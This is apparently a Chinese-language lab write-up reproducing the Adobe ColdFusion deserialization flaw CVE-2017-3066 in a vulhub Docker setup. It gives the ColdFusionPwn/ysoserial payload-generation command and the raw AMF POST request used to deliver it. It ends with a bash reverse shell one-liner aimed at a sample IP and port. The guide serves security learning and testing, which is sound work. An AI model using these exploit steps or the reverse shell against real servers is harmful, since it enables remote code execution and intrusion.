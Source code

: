 ### Adobe ColdFusion 反序列化漏洞（CVE-2017-3066）



### 漏洞原理

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe  ColdFusion中存在java反序列化漏洞。攻击者可利用该漏洞在受影响应用程序的上下文中执行任意代码或造成拒绝服务。以下版本受到影响：Adobe ColdFusion (2016 release) Update 3及之前的版本，ColdFusion 11 Update  11及之前的版本，ColdFusion 10 Update 22及之前的版本。

参考链接：

- https://codewhitesec.blogspot.com.au/2018/03/exploiting-adobe-coldfusion.html

## 复现漏洞

### 启动环境

进入路径为

```
cd /root/vulhub/coldfusion/CVE-2017-3066
1
```

搭建及运行漏洞环境：

```
docker-compose build && docker-compose up -d
1
```

此本安装环境需要大概1G+的数据下载，网络不好的起来走动走动吧:)
![1](C:\Users\litbaizhang\Desktop\20201222\Adobe ColdFusion\Adobe ColdFusion反序列化漏洞CVE-2017-3066\1.png)
 环境启动成功后，访问`http://your-ip:8500/CFIDE/administrator/index.cfm`，输入密码`vulhub`，即可成功安装Adobe ColdFusion。
![2](C:\Users\litbaizhang\Desktop\20201222\Adobe ColdFusion\Adobe ColdFusion反序列化漏洞CVE-2017-3066\2.png)

## 漏洞复现

### 生成POC

使用[ColdFusionPwn](https://github.com/codewhitesec/ColdFusionPwn)工具来生成POC。
 [下载ColdFusionPwn](https://github.com/codewhitesec/ColdFusionPwn/releases/download/0.0.1/ColdFusionPwn-0.0.1-SNAPSHOT-all.jar)
 [下载ysoserial](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)
 【注意】下载的jar包可能因为时间不同，而更新，包名也就不同。注意将命令中的包名，替换为你下载时候的名字

```
java -cp ColdFusionPwn.jar:ysoserial.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/CVE-2017-3066_is_success' poc.ser
1
```

【再注意】上面的命令在Win10下我没有执行成功，错误提示为`错误: 找不到或无法加载主类 com.codewhitesec.coldfusionpwn.ColdFusionPwner`。在Kali成功生成了?

### 发送POC

生成poc.ser文件后，将POC作为数据包body发送给`http://your-ip:8500/flex2gateway/amf`，Content-Type为`application/x-amf`：

```
POST /flex2gateway/amf HTTP/1.1
Host: your-ip:8500
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853

[...poc...]
1234567891011
```

![3](C:\Users\litbaizhang\Desktop\20201222\Adobe ColdFusion\Adobe ColdFusion反序列化漏洞CVE-2017-3066\3.png)

### 发送POC内容

由于编码问题，如果直接从Notepad++/Notepad里面复制粘贴为body部分，是不成功的，即使返回的状态码是200
![4](C:\Users\litbaizhang\Desktop\20201222\Adobe ColdFusion\Adobe ColdFusion反序列化漏洞CVE-2017-3066\4.png)
 正确发送方式为：
 右击选择**Paste From File**，上传**poc.cer**文件
 ![5](C:\Users\litbaizhang\Desktop\20201222\Adobe ColdFusion\Adobe ColdFusion反序列化漏洞CVE-2017-3066\5.png)
 【感谢豆老师?的纠错，以及科普编码问题】?
 再到`Raw`界面添加HTTP头部，如果成功，并且打算以后还需要用的话，右击选择`Copy to File`保存
![6](C:\Users\litbaizhang\Desktop\20201222\Adobe ColdFusion\Adobe ColdFusion反序列化漏洞CVE-2017-3066\6.png)

#### 检验POC

##### 进入容器

###### 通过DockerID进入容器

```
docker exec -it 容器ID /bin/bash  
1
```

###### 查看容器ID

```
docker ps
1
```

![7](C:\Users\litbaizhang\Desktop\20201222\Adobe ColdFusion\Adobe ColdFusion反序列化漏洞CVE-2017-3066\7.png)

###### 通过Docker名字进入容器

```
docker-compose exec 容器名字 bash
1
```

比如本次环境中是：

```
docker-compose exec coldfusion bash
1
```

##### 查看/tmp/

```
ls /tmp/
1
```

发现`/tmp/success`已成功创建：
![8](Adobe ColdFusion反序列化漏洞CVE-2017-3066\8.png)
 将POC改成[反弹命令](http://jackson.thuraisamy.me/runtime-exec-payloads.html)，成功拿到shell：
![9](Adobe ColdFusion反序列化漏洞CVE-2017-3066\9.png)

### 反弹Shell

#### 格式

```
bash -i >& /dev/tcp/ip/port 0>&1
1
```

#### 例子

比如监听192.168.236.138的333端口

```
bash -i >& /dev/tcp/192.168.236.138/333 0>&1
```